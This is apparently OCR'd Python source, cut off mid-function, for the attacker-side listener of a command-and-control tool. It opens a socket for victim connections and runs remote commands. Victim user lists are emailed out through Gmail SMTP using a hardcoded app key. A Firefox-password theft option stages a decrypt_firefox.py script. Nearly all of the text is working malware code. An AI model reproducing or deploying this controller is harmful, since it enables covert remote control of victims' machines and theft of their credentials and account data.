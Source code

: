 ```python

# root?
if os.geteuid() != 0:
    print(colored("\n[!] You need to be root\n", 'red'))
    sys.exit(1)

class Listener:

    def __init__(self, ip, port):
        self.ip = ip
        self.options = {"get users": "List system valid users (Gmail)", "help": "Show this help panel", "firefox": "Get firefox browser passwords"}
        self.server_process = None

        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server_socket.bind((ip, port))
        server_socket.listen()

        print(colored(f"\n[+] Listening for incoming connections...\n", 'green'))

        self.client_socket, client_address = server_socket.accept()

        print(colored(f"\n[+] Connection established by {client_address}\n", 'yellow'))

    def command_remotely(self, command):
        self.client_socket.send(command.encode())
        return self.client_socket.recv(2048).strip().decode('cp850')

    def send_email(self, subject, body, sender, recipients, password):
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = ', '.join(recipients)

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
            smtp_server.login(sender, password)
            smtp_server.sendmail(sender, recipients, msg.as_string())

        print(colored(f"\n[+] Emails sent successfully!!\n", 'green'))

    def get_user(self, command):
        self.client_socket.send(b"net user")
        command_output = self.client_socket.recv(2048).decode()
        self.send_email("Net Users Report - C2", command_output, "your@gmail.com", ["your@gmail.com"], "jdad cnda uvda sawa") # e-mail addres && aplication key of yout e-mail addres

    def help_panel(self):
        donde = self.command_remotely("cd")
        print(donde)
        for key, value in self.options.items():
            print(f"\n{key} - {value}\n")

    def check_path(self):
        directory = tempfile.mkdtemp(prefix="Python-Server-")
        print(colored(f"Temporary directory '{directory}' created.\n", 'yellow'))
        try:
            file_to_copy = "decrypt_firefox.py"
            current_directory = os.getcwd()
            source_file_path = os.path.join(current_directory, file_to_copy)
            destination_file_path = os.path.join(directory, file_to_copy)
            shutil.copy(source_file_path, destination_file_path)
        except Exception as e:
```